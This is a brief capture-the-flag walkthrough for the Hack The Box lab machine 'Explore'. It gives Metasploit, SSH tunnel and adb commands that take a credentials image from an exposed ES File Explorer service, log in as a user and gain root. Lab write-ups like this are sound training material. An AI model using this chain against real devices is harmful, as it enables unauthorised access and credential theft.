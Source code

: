 # explore.htb

#### gather user credentials
use action `LISTFILES` to view the existing files, here I saw `creds.jpg`

```bash
$ msfconsole -x "use auxiliary/scanner/http/es_file_explorer_open_port;\
set RHOSTS 10.10.10.247;\
set ACTION GETFILE;\
set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg;\
run"
```

#### create ssh tunnel
copy down the login credentails and pass them in to our ssh tunnel

```bash
$ ./exploit -h 10.10.10.247:2222 -u kristi -p <password>
```

#### connect to user over adb

```bash
$ adb connect localhost:5555
$ adb shell
```

#### Gain root access
```
$ su root
```